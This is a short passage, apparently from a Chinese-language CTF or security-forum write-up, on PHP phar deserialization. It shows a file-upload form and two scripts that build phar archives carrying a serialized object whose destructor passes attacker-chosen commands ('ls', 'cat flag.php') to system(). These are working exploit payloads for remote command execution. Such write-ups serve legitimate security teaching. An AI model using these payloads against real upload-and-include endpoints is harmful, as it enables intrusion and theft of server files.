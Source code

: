 ```php
?>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
</head>
<body>
<form action="" method="post" enctype="multipart/form-data">
    <input type="file" name="file" />
    <input type="submit" value="load" />
</form>
</body>

</html>
```

```php
<?php
class A {
    public $a;

    public function __destruct()
    {
        system($this->a);
    }
}
$a = new A();
$a->a='ls';
$phar = new Phar("test.phar");//后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");//设置stub
$phar->setMetadata($a);//将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

上传后进行包含

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-e2680221ccfb0f09d1e055dadd093b2c98bac9cd.png)

```php
<?php
class A {
    public $a;

    public function __destruct()
    {
        system($this->a);
    }
}
$b = new A();
$b->a='cat flag.php';
$phar = new Phar("test4.phar");//后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");//设置stub
$phar->setMetadata($b);//将自定义的meta-data存入manifest
$phar->addFromString("test4.txt", "test4");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```
